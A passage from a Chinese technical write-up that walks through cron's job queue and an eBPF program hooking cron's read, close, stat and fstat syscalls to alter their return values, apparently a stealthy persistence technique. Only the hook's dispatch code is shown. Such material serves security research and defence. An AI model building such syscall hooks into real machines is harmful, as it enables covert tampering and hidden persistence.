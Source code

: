 ```
```

可以看到里面维护了对应的 user 的 crontab 的 cmd。

 

最终我们的 job 会被加入队列中，由 `job_runqueue()` 调用 `do_command(j->e, j->u)` 运行。

```
typedef    struct _job {
    struct _job    *next;
    entry        *e;
    user        *u;
} job;
 
int
job_runqueue(void) {
    job *j, *jn;
    int run = 0;
 
    for (j = jhead; j; j = jn) {
        do_command(j->e, j->u);        // run
        jn = j->next;
        free(j);
        run++;
    }
    jhead = jtail = NULL;
    return (run);
}

```

##### Hook 程序分析

首先从 `sys_enter` 去 Hook 对应的系统调用。获取当前的 syscall id，从进程 commandline 获取对应的文件名（比较是否为 cron），然后根据我们捕捉到的不同系统调用再分配不同的处理函数。

 

相应的，我们也在对称的位置，即每个 syscall 退出时进行 hook，主要涉及到了对于返回值的修改。

```
// When we enter syscall
SEC("raw_tracepoint/sys_enter")
int raw_tp_sys_enter(struct bpf_raw_tracepoint_args *ctx)
{
    unsigned long syscall_id = ctx->args[1];
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(&comm, sizeof(comm));
    // executable is not cron, return
    if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME))){
        return 0;
    }
 
    //bpf_printk("cron trigger!\n");
    switch (syscall_id)
    {
        case 0:
            handle_enter_read(ctx);
            break;
        case 3:  // close
            handle_enter_close(ctx);
            break;
        case 4:
            handle_enter_stat(ctx);
            break;
        case 5:
            handle_enter_fstat(ctx);
```